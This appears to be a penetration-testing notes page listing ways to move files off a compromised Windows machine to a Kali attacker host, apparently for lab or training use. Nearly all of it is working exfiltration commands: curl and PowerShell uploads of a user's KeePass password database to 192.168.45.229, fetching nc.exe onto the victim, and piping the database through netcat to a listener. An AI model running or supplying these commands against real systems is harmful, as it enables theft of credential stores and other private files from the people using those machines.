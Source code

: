 public:: true

- Python [uploadserver](https://pypi.org/project/uploadserver/)
	- On Kali
	  ```bash
	  python3 -m uploadserver 8080
	  ```
	- On Windows
		- #+BEGIN_IMPORTANT
		  You need the real `curl`. On PowerShell `curl` is an alias for `Invoke-WebRequest` and because of that it is not suitable for this use-case.
		  #+END_IMPORTANT
			- Example of using `curl` as an alias for `Invoke-WebRequest`
			  ```powershell
			  PS C:\users\bobby> curl -X POST -F "files=@C:\Users\bobby\database.kdbx" 192.168.45.229:8080/upload
			  Invoke-WebRequest : A parameter cannot be found that matches parameter name 'X'.
			  ```
		- If the real `curl` is installed then switch to a `cmd` prompt.
		  ```cmd
		  C:\users\bobby> curl -X POST -F "files=@C:\Users\bobby\database.kdbx" http://192.168.45.229:8080/upload
		  ```
		- If `curl` is not an option, then you can use [`PSUpload.ps1`](https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1) from a Powershell prompt.
		  ```powershell
		  PS C:\users\bobby> Import-Module .\PSUpload.ps1
		  PS C:\users\bobby> Invoke-FileUpload -File C:\Users\bobby\Database.kdbx -Uri http://192.168.45.229:8080/upload
		  Invoke-FileUpload -File C:\Users\bobby\Database.kdbx -Uri http://192.168.45.229:8080/upload
		  
		  [+] File Uploaded:  C:\Users\bobby\Database.kdbx
		  [+] FileHash:  6DF711DF31EAC725FA31235C2437E678
		  
		  ```
- Netcat
	- On Kali
	  ```bash
	  nc -lnvp 443 > bobby.kdbx
	  ```
	- On Windows
		- Upload netcat
		  ```powershell
		  curl 192.168.45.229/nc.exe -o nc.exe
		  ```
		- Exfiltrate data via netcat
		  ```powershell
		  cat C:\users\bobby\Database.kdbx | .\nc.exe 192.168.45.229 443
		  ```